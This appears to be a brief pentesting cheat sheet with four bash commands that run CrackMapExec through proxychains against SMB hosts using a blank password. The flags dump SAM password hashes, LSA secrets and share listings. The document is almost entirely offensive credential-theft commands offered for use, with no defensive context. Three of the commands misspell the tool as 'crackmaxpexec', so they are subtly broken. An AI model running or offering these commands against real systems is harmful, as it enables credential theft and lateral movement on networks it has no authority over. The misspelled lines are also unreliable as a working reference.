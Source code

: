 # Proxychains

## With CME

### Using:

```bash
sudo proxychains crackmapexec smb ip -u user -p '' -d domain
```

### Dump SAM:

```bash
sudo proxychains crackmaxpexec smb ip -u user -p '' -d domain --sam
```

### Dump LSA:

```bash
sudo proxychains crackmaxpexec smb ip -u user -p '' -d domain --lsa
```

### Dump shares:

```bash
sudo proxychains crackmaxpexec smb ip -u user -p '' -d domain --shares
```

